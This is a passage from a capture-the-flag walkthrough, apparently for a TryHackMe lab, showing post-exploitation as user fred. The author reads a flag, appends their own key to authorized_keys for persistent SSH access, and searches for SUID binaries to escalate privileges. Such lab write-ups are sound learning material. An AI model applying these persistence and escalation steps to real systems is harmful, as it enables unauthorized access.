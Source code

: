 </pre>
</li>
<li>
<p>We're in as&nbsp;<strong>fred</strong>! Let's get next flag:&nbsp;<strong>fred.txt</strong></p>
</li>
<li>
<pre>fred@b3dr0ck:~$ cat fred.txt
cat fred.txt
THM{***}</pre>
</li>
<li>Woot! Let's keep going!</li>
</ul>
</li>
<li>Now we have access as user:&nbsp;<strong>fred</strong>, let's import our SSH public key so we can login easy without password
<ul>
<li>
<pre>fred@b3dr0ck:~$ echo "ssh-rsa my-ssh-public-key ..." &gt;&gt; .ssh/authorized_keys
echo "ssh-rsa my-ssh-public-key ..." &gt;&gt; .ssh/authorized_keys</pre>
</li>
<li>Let's try to SSH as&nbsp;<strong>fred</strong> now using our SSH public key authorized under his server account</li>
<li>
<pre>$ ssh fred@10.10.74.126                                                                                                                                              &lt;aws:bowtie_agency&gt;
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 10 Apr 2022 11:28:19 PM UTC

  System load:  0.0               Processes:             118
  Usage of /:   57.1% of 7.07GB   Users logged in:       1
  Memory usage: 24%               IPv4 address for eth0: 10.10.74.126
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Sun Apr 10 21:04:34 2022 from 192.168.1.67
fred@b3dr0ck:~$ </pre>
</li>
<li>Now we're logged into a "real" shell via SSH as user&nbsp;<strong>fred</strong>!</li>
</ul>
</li>
<li>Let's hunt around to see what&nbsp;<strong>fred</strong> can do...
<ul>
<li>Start searching for&nbsp;<strong>SUID</strong> files</li>
<li>
<pre>fred@b3dr0ck:~$ find / -type f -perm -04000 2&gt;/dev/null
/snap/snapd/14978/usr/lib/snapd/snap-confine
/snap/snapd/15177/usr/lib/snapd/snap-confine
/snap/core20/1405/usr/bin/chfn
/snap/core20/1405/usr/bin/chsh
/snap/core20/1405/usr/bin/gpasswd
/snap/core20/1405/usr/bin/mount
/snap/core20/1405/usr/bin/newgrp
/snap/core20/1405/usr/bin/passwd
/snap/core20/1405/usr/bin/su
/snap/core20/1405/usr/bin/sudo
/snap/core20/1405/usr/bin/umount
/snap/core20/1405/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1405/usr/lib/openssh/ssh-keysign
/snap/core20/1328/usr/bin/chfn
